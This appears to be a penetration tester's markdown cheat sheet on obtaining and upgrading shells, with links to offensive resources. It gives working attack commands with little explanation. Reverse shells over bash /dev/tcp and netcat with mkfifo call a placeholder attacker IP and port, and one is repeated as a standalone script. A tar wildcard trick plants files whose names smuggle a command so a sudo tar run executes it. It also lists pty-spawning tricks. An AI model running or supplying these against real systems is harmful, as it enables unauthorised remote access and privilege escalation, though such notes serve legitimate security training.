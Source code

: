 # Resources
- [Hacktricks Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)
- [RevShells](https://www.revshells.com/)
- https://pentestmonkey.net/category/tools/web-shells
- [Payloads All The Things - Repo](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Socat](https://linux.die.net/man/1/socat)
- [Netcat](../../Tools/Netcat.md)

---
# Shellnanigans

# Upgrading_Shells
- Non-interactive shell session
	- `/bin/bash -i` : launches bash interactive
	- `cat /etc/shells` to view available shells
	- `python --version` : see if python is available
		- `python -c 'import pty; pty.spawn("/bin/bash")'` : spawn bash
	- `perl -e 'exec "/bin/bash";'`
		- `perl -e 'system("/bin/bash");'`
	- can lookup different languages
- `env` check shell environment, add variables if not existing
	- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
	- `export TERM-xterm`
	- `export SHELL=bash`
- connect bash to netcat over sockets
	- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`


Tar being called with sudo wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
